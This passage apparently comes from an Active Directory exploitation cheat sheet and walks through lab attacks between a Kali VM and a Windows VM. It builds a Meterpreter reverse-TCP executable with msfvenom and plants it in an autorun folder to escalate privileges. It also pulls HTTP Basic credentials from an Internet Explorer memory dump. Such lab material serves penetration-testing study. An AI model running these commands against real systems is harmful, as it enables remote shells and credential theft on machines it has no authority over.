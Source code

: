 Kali VM

1.  Open command prompt and type: msfconsole
2.  In Metasploit (msf > prompt) type: use multi/handler
3.  In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse\_tcp
4.  In Metasploit (msf > prompt) type: set lhost \[Kali VM IP Address\]
5.  In Metasploit (msf > prompt) type: run
6.  Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse\_tcp lhost=\[Kali VM IP Address\] -f exe -o program.exe
7.  Copy the generated file, program.exe, to the Windows VM.

Windows VM

1.  Place program.exe in ‘C:\\Program Files\\Autorun Program’.
2.  To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

Kali VM

1.  Wait for a new session to open in Metasploit.
2.  In Metasploit (msf > prompt) type: sessions -i \[Session ID\]
3.  To confirm that the attack succeeded, in Metasploit (msf > prompt) type: getuid

### Memory

#### [](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/C%20-%20Local%20Privilege%20Escalation/README.md#exploitation-10)Exploitation

Kali VM

1.  Open command prompt and type: msfconsole
2.  In Metasploit (msf > prompt) type: use auxiliary/server/capture/http\_basic
3.  In Metasploit (msf > prompt) type: set uripath x
4.  In Metasploit (msf > prompt) type: run

Windows VM

1.  Open Internet Explorer and browse to: http://\[Kali VM IP Address\]/x
2.  Open command prompt and type: taskmgr
3.  In Windows Task Manager, right-click on the “iexplore.exe” in the "Image Name" columnand select “Create Dump File” from the popup menu.
4.  Copy the generated file, iexplore.DMP, to the Kali VM.

Kali VM

1.  Place 'iexplore.DMP' on the desktop.
2.  Open command prompt and type: strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"
3.  Select the Copy the Base64 encoded string.
4.  In command prompt type: echo -ne \[Base64 String\] | base64 -d
5.  Notice the credentials in the output.

4\. USER HUNTING
----------------

*   Find all machines on the current domain where the current user has local admin access (Get-NetComputer + Invoke-CheckLocalAdminAccess)
